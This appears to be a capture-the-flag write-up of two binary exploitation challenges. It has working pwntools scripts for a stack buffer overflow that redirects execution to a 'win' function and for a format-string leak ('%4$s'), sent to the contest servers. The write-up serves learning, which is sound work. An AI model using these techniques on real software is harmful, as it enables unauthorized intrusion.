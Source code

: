 # pwn

## Flag Dropper
> Solved by Taz and thewhiteh4t

* After loading the binary in `GDB` we can list the functions
```
info functions
```

![](https://i.imgur.com/rbChpV2.png)

* here we can see that we have a `win` function
* win function disassembled :

```bash
gdb-peda$ disas win
Dump of assembler code for function win:
   0x00000000004005da <+0>:	mov    eax,0x0
   0x00000000004005df <+5>:	lea    rsi,ds:0x60109d
   0x00000000004005e7 <+13>:	lea    rdi,ds:0x601094
   0x00000000004005ef <+21>:	call   0x400440 <fopen@plt>
   0x00000000004005f4 <+26>:	mov    rdx,rax
   0x00000000004005f7 <+29>:	mov    eax,0x0
   0x00000000004005fc <+34>:	movabs rdi,0x601124
   0x0000000000400606 <+44>:	mov    esi,0x16
   0x000000000040060b <+49>:	call   0x400430 <fgets@plt>
   0x0000000000400610 <+54>:	mov    edi,0x1
   0x0000000000400615 <+59>:	mov    eax,0x1
   0x000000000040061a <+64>:	mov    edx,0x16
   0x000000000040061f <+69>:	syscall
   0x0000000000400621 <+71>:	jmp    0x4005d0 <_exit>
   0x0000000000400623 <+73>:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x000000000040062d <+83>:	nop    DWORD PTR [rax]
End of assembler dump.
```

* it is opening and reading some file
* now lets run the binary in GDB with a breakpoint in main

![](https://i.imgur.com/MMVX7lC.png)

* after some instructions we can see **flag.txt**
* I created a file named **flag.txt** with a fake flag inside it
* now I tried to execute the `win` function I found earlier

![](https://i.imgur.com/Zb62G51.png)

* great so win function is opening **flag.txt** and printing the flag
* now I looked for something which can execute the win function

![](https://i.imgur.com/0yJjSWN.png)

* we can see in the `code` section :

```
<main+142>: jmp QWORD PTR [rax]
```

* `jmp` is used for changing the flow of the programing , that means if we can provide the start address of `win` function to `jmp` it will execute it for us

* I found the offset at `73`

![](https://i.imgur.com/bovjmMe.png)

* Now lets find the start address of `win` function

```
gdb-peda$ print win
$1 = {<text variable, no debug info>} 0x4005da <win>
```

* Testing the offset in GDB :

```bash
# Payload
python -c "print('A' * 73 + 'BBBBBBBB')"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
```

![](https://i.imgur.com/6hrG88c.png)

* we have a small problem here, it seems like one of the A is extra so the offset should be 72 instead of 73

* Testing the new offset using pwntools with start address of `win` function :

```python
#!usr/bin/env python3

from pwn import *

offset = 72
addr = 0x4005da # Start address of win function

junk = b'A' * 72
le_num = p64(addr) # converted to little endian
buffer = junk + le_num 

elf = ELF('./flagDropper')
p = elf.process()
p.send(buffer)
out = p.recvall()
print(out)

```

* the script above runs the binary locally and sends our payload, here is the output :

![](https://i.imgur.com/fc0v22d.png)

* It works!, now I created a new script to send the payload on the server

```python
#!/usr/bin/env python3
    
from pwn import *
    
host = 'dropper.sdc.tf'
port = 1337
offset = 72
addr = 0x4005da # address of win function
    
junk = b'A' * offset
le_num = p64(addr)
    
buffer = junk + le_num
conn = remote(host, port)
conn.send(buffer)
flag = conn.recvuntil('}').decode()
print(f'\nFLAG : {flag}\n')
conn.close()
```

**OUTPUT :**

![](https://i.imgur.com/pu5NYoX.png)

---

## printFailed
> Solved By : thewhiteh4t

* Right from the start we get a segfault on this binary

```bash
./printFailed
zsh: segmentation fault (core dumped)  ./printFailed
```

* Let's investigate in GDB

![](https://i.imgur.com/91Rzavz.png)

* It's trying to open **flag.txt** but it does not exist, I created the file and relaunched the binary and it works now

```bash
./printFailed
can you guess the scrambled flag?
yes
you guessed:
yes
wrong
```

* It prints the input, let's look into GDB again
* A scramble function is called soon after the file is read
* Here we can see the scrambled flag : 

![](https://i.imgur.com/itwobGI.png)

```
"tedug|g5l4`gm5h~\v", '\001' <repeats 22 times>
```

* this looks familiar

```
tedug|g5l4`gm5h~\v
sdctf{f4k3_fl4g}
```

* so the input is shifted by 1 character!
* let's try to input the scrambled flag in the local binary

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF('./printFailed')

guess = b'tedug|g5l4`gm5h~\v' + b'\001' * 22

p = elf.process()
p.send(guess)
out = p.recv(4096)
print(out)
```

![](https://i.imgur.com/z5MuV9f.png)

* the scrambled flag works!
* but now the issue is that we don't know the actual flag so we cannot make a scrambled flag
* earlier we saw that the binary prints the input, this hints at `format string exploit`
* this article helped a lot in figuring out the way forward
* https://nikhilh20.medium.com/format-string-exploit-ccefad8fd66b
* https://man7.org/linux/man-pages/man3/printf.3.html

```
%s   -> string
%2$s -> 2nd argument
%3$s -> 3rd argument
```

* I tried them one by one and `%4$s` leaks the scrambled flag! 

![](https://i.imgur.com/kPVOxuG.png)

* Here is the final script and output :

```python
#!/usr/bin/env python3

from pwn import *

host = 'printf.sdc.tf'
port = 1337

payload = b'%4$s'

conn = remote(host, port)
conn.send(payload + b'\n')
res = conn.recv(4096).decode().split('\n')[2]
conn.close()

print(res)

for char in res:
    print(chr(ord(char) - 1), end='')
```

**OUTPUT :**

![](https://i.imgur.com/DCmtMWZ.png)